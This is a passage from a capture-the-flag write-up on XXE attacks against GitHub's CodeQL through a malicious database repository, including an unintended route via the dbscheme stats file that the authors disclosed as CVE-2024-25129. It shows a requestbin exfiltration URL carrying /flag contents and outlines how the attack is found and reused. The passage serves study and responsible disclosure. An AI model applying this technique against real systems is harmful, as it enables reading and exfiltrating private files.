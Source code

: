 We then only have to host the DB somewhere in a Git repository and tell the "codeql_agent" to run a CodeQL query on that database.

After a while, we will see a request to our requestbin URL with the contents of the `/flag` file:
`https://requestbin.internal/dQw4w9WgXc/rwctf{6ebfdb11-8e7f-493a-8bb2-d8623fd993bf}`

## Unintended Solution – CVE-2024-25129

The unintended solution is to use the `semmlecode.dbscheme.stats` file which is used to improve join-ordering decisions in CodeQL. This solution is unintended, because it works with the default JVM settings and does not require the `-Djavax.xml.accessExternalDTD=all` JVM option. We therefore responsibly disclosed this vulnerability to GitHub and it was assigned [CVE-2024-25129](https://github.com/github/codeql-cli-binaries/security/advisories/GHSA-gf8p-v3g3-3wph).

### Finding out Where XML is Parsed

We knew that we had to find a place where CodeQL parsed XML and so we set out to find all places where the CodeQL Java program parsed XML. To do this, we first set up a comfy development environment.

#### Debugging

As CodeQL is a nice, unobfuscated Java program, we just make a small project in IntelliJ and attach the CodeQL JAR file as a library. This allows us to write code calling CodeQL methods but, more importantly, also **to use IntelliJ's remote debugging feature for dynamic analysis**. To find all XML parsing locations, we then insert breakpoints at the JAXP entrypoints and run the program.

#### JAXP

Very soon, a few breakpoints triggered—parsing the logback configuration included in the CodeQL JAR file. Not exactly a prime target. Sadly, this was all we could gather at this stage; no other places jumped out that parse XML using the JAXP entrypoints. But we also noticed another place parsing XML, even though it did not seem to hit the normal JAXB methods: The database statistics file (this file is used to improve join-ordering decisions). Unfortunately, it seems to be loaded from the integrated definitions within CodeQL and therefore not controllable by us.

#### dbstats

Through trial and error, we finally move a dbstats file (`db-java/semmlecode.dbscheme.stats`) in the database, changing its path and suddenly running a query crashes with a file-not-found exception. Tracing the callstack with the provided error message reveals a _second_ XML parser, Apache Xerces (this is Java after all)! After experimenting for a bit, we confirm that the XML in the statistics file is actually parsed by CodeQL (using the `StatisticsPersistence` class) — XML written by us.

### Exploitation

We can now just reuse the XXE payload from the [intended solution](#full-exploit) and host the dbstats file in a Git repository. After running a query, we will once again see a request to our requestbin URL with the contents of the `/flag` file.

**In real life, this vulnerability is unfortunately quite limited as (at least) Java does not allow newlines in URLs, making exfiltration of multi-line files impossible.** \
However, XXE can still be used for RCE when the stars align as the watchTowr team has shown in their recent [blog post](https://labs.watchtowr.com/sysowned-your-friendly-rce-support-ticket/).
